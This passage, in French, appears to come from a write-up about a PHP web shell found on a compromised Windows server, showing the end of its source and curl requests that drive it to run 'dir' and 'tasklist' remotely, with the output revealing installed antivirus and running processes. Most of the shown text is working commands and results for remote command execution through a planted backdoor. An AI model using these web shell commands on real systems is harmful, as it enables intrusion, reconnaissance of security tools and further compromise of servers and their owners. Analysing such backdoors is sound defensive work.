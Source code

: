```php
    $ret_func($ret_val);                                                                                               
}                                                                                                                      

?>
```

Exécution de commande
---------------------

Cela permet de passer le nom de fonction à exécuter avec ses arguments (jusqu'à deux), de récupérer le résultat de la fonction et de le passer à une autre fonction.  

L'équivalent d'un `print(passthru("dir c:\"))` se fera de cette façon :  

```console
$ curl --data 'f=passthru&a=dir c:\&rf=print' http://evil.corp/pictures/product/db.inc.php
 Le volume dans le lecteur C n'a pas de nom.
 Le num�ro de s�rie du volume est DEAD-BEEF

 R�pertoire de c:\

26/12/2014  17:03    <REP>          Intel
17/08/2009  05:20    <REP>          PerfLogs
10/12/2014  18:22    <REP>          Program Files
17/03/2016  14:25    <REP>          Program Files (x86)
02/08/2014  11:35    <REP>          Backup
13/05/2015  11:28    <REP>          temp
22/11/2017  10:34    <REP>          Users
08/09/2016  10:21    <REP>          wamp
11/06/2017  23:53    <REP>          Windows
```

On trouve quelques entrées intéressantes dans `Program Files` :  

```plain
02/12/2014  09:36    <REP>          FileZilla FTP Client
16/01/2017  14:25    <REP>          Kaspersky Lab
09/04/2016  08:32    <REP>          TeamViewer
23/12/2014  16:41    <REP>          Windows Defender
```

Il y a donc deux outils de sécurité qui tournent.  

```console
$ curl --data 'f=passthru&a=tasklist&rf=print' http://evil.corp/pictures/product/db.inc.php

Nom de l'image                 PID Nom de la sessio Num�ro de s Utilisation 
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0        24 Ko
System                           4 Services                   0       528 Ko
smss.exe                       436 Services                   0       100 Ko
csrss.exe                      616 Services                   0     1�588 Ko
wininit.exe                    672 Services                   0       232 Ko
winlogon.exe                   748 Console                    1       252 Ko
services.exe                   796 Services                   0     5�044 Ko
lsass.exe                      804 Services                   0     5�200 Ko
lsm.exe                        816 Services                   0     1�500 Ko
svchost.exe                    996 Services                   0     3�828 Ko
---snip---
wampmanager.exe               2156 Console                    1     1�208 Ko
avp.exe                       2296 Services                   0    80�044 Ko
avpui.exe                     1168 Console                    1     3�060 Ko
TeamViewer_Service.exe        3588 Services                   0     6�052 Ko
TeamViewer.exe                9416 Console                    1     7�992 Ko
httpd.exe                     9172 Services                   0       328 Ko
```
